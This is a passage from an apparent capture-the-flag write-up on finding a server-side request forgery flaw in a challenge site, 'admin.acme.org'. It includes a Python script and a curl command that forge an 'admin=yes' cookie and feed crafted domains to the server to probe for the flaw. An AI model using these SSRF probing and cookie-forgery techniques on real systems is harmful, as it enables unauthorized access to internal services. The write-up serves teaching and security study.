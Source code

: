 > echo "SGVsbG8gV29ybGQhCg==" |base64 -d

```
Hello World!
```

## Get SSRF

As I thought, the page seems to take the provided domain and fetch data from it.
This is a classic situation were there could be room for a SSRF vulnerability.
To be able to work with this more methodically, I created a small Python script, looking something like the one below, to automate the fetching and decoding of domains.
Using this script I started to manually "fuzz" the API by providing various malformed domains in different formats.

```python
#!/usr/bin/env python
import requests
import base64

URL = 'http://admin.acme.org'

TARGET = '212.zeta-two.com'

r = requests.post(URL + '/index.php', headers={'Content-Type': 'application/json'}, json={'domain': TARGET}, cookies={'admin':'yes'})
print(r.headers)
print(r.text)
path2 = r.json()['next']
print('Next: %s' % path2)
read_id = int(path2.split('id=')[-1])
print('Next ID: %d' % read_id)

r = requests.get(URL + '/read.php?id=%d' % read_id + '', cookies={'admin':'yes'})
print(r.headers)
result_text = base64.b64decode(r.json()['data'])
print('Res: "%s"' % result_text)
```

To expand on my previous knowledge on this, I used [Orange's materials on SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) as a source of inspiration.
After a while a noticed that there was something strange going on when I used newlines in the domain. Specifically I finally noticed that when using newlines, the id returned from the first request increased by more than 1.
It looked something like this

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.zeta-two.com"}' 

```
{"next":"\/read.php?id=9"}
```
  
  